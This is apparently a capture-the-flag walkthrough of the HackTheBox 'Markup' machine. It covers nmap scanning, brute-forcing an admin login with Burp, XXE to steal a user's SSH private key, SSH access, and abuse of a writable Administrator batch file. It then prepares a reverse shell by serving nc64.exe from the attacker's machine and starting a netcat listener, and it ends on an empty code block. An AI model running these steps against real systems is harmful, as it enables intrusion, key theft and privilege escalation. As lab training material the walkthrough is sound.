



# Markup      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


### **22/tcp (SSH)**
This port is used by `OpenSSH`, specifically the Windows version 8.1, which implements the Secure Shell (SSH) protocol. SSH allows for secure remote login and other secure network services over an unsecured network, encrypting the session to protect the data transmitted between the client and server. The output indicates that the server supports SSH protocol 2.0 and provides various host keys, including RSA, ECDSA, and ED25519, for authenticating the connection.

### **80/tcp (HTTP)**
This port is used by the `Apache HTTP Server`, version 2.4.41, running on a Windows 64-bit system with OpenSSL 1.1.1c and PHP 7.2.28. The Apache server is responsible for serving web pages to clients and supports standard HTTP methods like `GET`, `HEAD`, `POST`, and `OPTIONS`. The `http-title` indicates that the web service is branded as `MegaShopping`, and the server's response headers show that the `httponly` flag for cookies is not set, which might indicate a security concern.

### **443/tcp (SSL/HTTP)**
This port is also used by `Apache HTTP Server`, version 2.4.41, running with SSL/TLS encryption provided by OpenSSL 1.1.1c on a Windows 64-bit system. This port serves the same "MegaShopping" site but over HTTPS, ensuring that the data transmitted between the client and server is encrypted. The SSL certificate used for this connection has expired, with a validity period from 2009 to 2019, which may pose a security risk. Additionally, the server supports standard HTTP methods like `GET`, `HEAD`, `POST`, and `OPTIONS` over the encrypted connection, but the `httponly` flag for session cookies is not set, indicating a potential vulnerability.

After pasting http://{target ip}/ into the browser, we can see website.


### Burpsuite

Author of the challenge suggests us that login:username combination is very simple.

Let's try to find the `password` for `admin` user.

Intercept the request.


Send it to `Intruder` using `Ctrl + I` combination.

Mark `test` after password and click `Add §` icon.


Go to `Payloads` section and in `Payload settings` load payload which you want to use.


If all of the above is done press `Start attack`.


We can see that the password is `password` but what is interesting `Password` works also.

It means that the system is not distinguishing between `uppercase` and `lowercase` letters in passwords. This lack of case sensitivity reduces the password's complexity and security.

So our credentials are:

```
admin:password
```

Try to log in.


We are in.

There is nothing interesting but `Order` tab is responsive.

Let's intercept an order.


### XXE

`XML` is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from `HTML` by not being limited to a set of predefined tags. `XML`'s significance has declined with the rise of `JSON`, despite its initial role in `AJAX` technology.

`XXE (XML External Entity)` is a security vulnerability in `XML` parsers that allows attackers to exploit the processing of external entities within an `XML` document. This can lead to unauthorized access to sensitive data, denial of service, or remote code execution by injecting malicious `XML` content into an application.


Send this request to `Repeater` by pressing `Ctrl + R`.

Now it's time to use `HackTricks`.

Go to: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

Of course we are looking for `payloads` for `Windows` as we are attacking `Windows` machine.


This `payload` looks like for us.


`<item>` section will be an entry point to our `XXE` incjection.

I've tried a lot of combinations but none of them worked.


A different approach must be taken.

We know that `SSH` service is running on that machine.

I found this article helpful: https://jumpcloud.com/blog/what-are-ssh-keys

If we knew some of the system users' `usernames`, it might could  help us get their `SSH` `public` and `private` keys.


In the source code of the page, we can see that it was `Modified by Daniel`.

From `Jumpcloud` article we know that `SSH key` should be in `$HOME/.ssh/id_rsa` path for `private key` and `$HOME/.ssh/id_rsa.pub` for `public key`.

For `Windows` in our example it would be `c:/users/Daniel/.ssh/id_rsa` and `c:/users/Daniel/.ssh/id_rsa.pub`


Let's save Daniel's `SSH` `private key`.


### SSH

Time to connect to teh system via `SSH`.

```
tldr ssh
```


The permissions on our `Daniel`'s key file are too open, meaning they are not secure enough for `SSH` to accept it. `SSH` requires `private key files` to be `readable only` by the owner for security reasons.

You have to change permissions to `read only`, otherwise you'll see this:


Type:

```
chmod 400 {name of file with Daniel's ssh key}
```


Let's finally connect.

Type:

```
ssh -i {name of file with Daniel's ssh key} Daniel@{target ip}
```


We are in.

### Get the user flag

The flag is on `Daniel`'s `Desktop`.


### System search


`Recovery.txt` is empty.

We can see `Log-Management` directory.

Let's see what's inside it.


`job.bat`:


The `job.bat` script is designed to clear log files and requires `Administrator` privileges to run. It uses the `wevtutil` command, which manages Windows event logs, including retrieving information, running queries, and clearing logs, as indicated by the `el` and `cl` parameters in the script.

Since the file can only be run by an Administrator, we could check if our user group has permission to edit it or if there are any permission mismatches.

Type:

```
icacls job.bat
```



`BUILTIN\Users` group has `full control (F)` over the file.

It means we can modify `job.bat` file.

If the `wevtutil` process from `job.bat` file is running, we will be able to create `reverse shell`.

Type:

```
powershell
```

and then:

```
ps
```


It's crucial, `wevtutil` process must be running.

#### Disclaimer

If you don't see `wevtutil` process running. Exit `powershell` and run `job.bat`. You will get disconnected. Connect again and everything should work.

If you have done it and it still doesn't work, just spawn a `new machine`. Few attempts could be needed but it'll work.

### Reverse shell preparation

We will upload the `nc64.exe` binary to the target machine and use it to launch an interactive `cmd.exe` session on our listening port.

#### Download `nc64.exe`

Open new tab and type:

```
wget https://github.com/int0x33/nc.exe/raw/master/nc64.exe
```



File is downloaded, now type:

```
python3 -m http.server 80
```

Remember to run the server in the directory where `nc64.exe` file is present.


Now in the `SSH` tab, type:

```
wget http://{your tun0 ip}/nc64.exe -outfile nc64.exe
```

Specifying the port isn't necessary.

If you don't know your tun0 ip address use `ip a | grep tun0` or `ifconfig`.

File should be uploaded.



Server confirms that everything went fine.


### Netcat

Now is finally time to execute the `nc64.exe` file in our target system for the `reverse shell`.

To do that we have to set up `Netcat` listener on our system.

Type in new tab:

```
nc -lvnp {port of your choice}
```


Now we can go back to our `SSH` tab.

Remember to leave powershell. Just type `exit`.

Now, we can type:

```

```